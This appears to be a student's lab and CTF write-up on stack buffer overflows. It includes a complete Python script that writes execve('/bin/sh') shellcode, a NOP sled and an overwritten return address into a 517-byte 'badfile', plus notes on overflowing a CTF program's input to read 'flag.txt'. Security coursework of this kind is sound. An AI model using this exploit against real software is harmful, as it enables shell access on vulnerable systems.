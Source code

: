 # Task 1

![alt text](img/Screenshot%202022-10-13%20at%2011.42.04.JPG)
32 bit shellcode

![alt text](img/Screenshot%202022-10-13%20at%2011.36.54.JPG)
64 bit shellcode

Both versions open a shell where we can use some commands.

# Task 2

![alt text](img/Screenshot%202022-10-13%20at%2012.15.48.JPG)

After creating a `badfile` with a length of 517 (we just copied the contents of `exploit.py` for ease of use), the program creates a buffer overflow.

![alt text](img/Screenshot%202022-10-13%20at%2015.45.35.JPG)

The values of the ebp and buffer address.

# Task 3

As we used the stack-L1, and this program was compiled in 32 bits, we used the value 32 bit shellcode in call_shellcode.c.

To fill the buffer with the maximum possible number of `NOP` values, we placed the start value at `517 - len(shellcode)`, as the buffer can take 517 bytes and we still leave space for the shellcode.

![alt text](img/Screenshot%202022-10-13%20at%2016.05.28.JPG)

The return variable used was the `ebp` in adition to the number `0x103`, as it should have a value between the address and the maximum possible number, 517.
The offset used was the `ebp` - buffer address + 4 bytes, as it'sa 32 bit architecture.

![alt text](img/Screenshot%202022-10-13%20at%2016.20.09.JPG)

Exploit ran successfully.

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb18 + 0x103           # Change this number 
offset = 0xffffcb18 - 0xffffcaac + 4              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

exploit.py code

# CTF

## Desafio 1
![alt text](img/Screenshot_2022-10-18_at_09.05.39.png)
we followed the instructions given and then, after analysing the code , we gathered that the program would read 28 characters so we added 20 "a" before "flag.txt" to overflow.

## Desafio 2
![alt text](img/Screenshot_2022-10-18_at_17.34.57.jpg)
we gained access.
![alt text](img/Screenshot_2022-10-18_at_17.35.24.jpg)
we converted the file's name from hexadecimal to ASCII and ran the script.

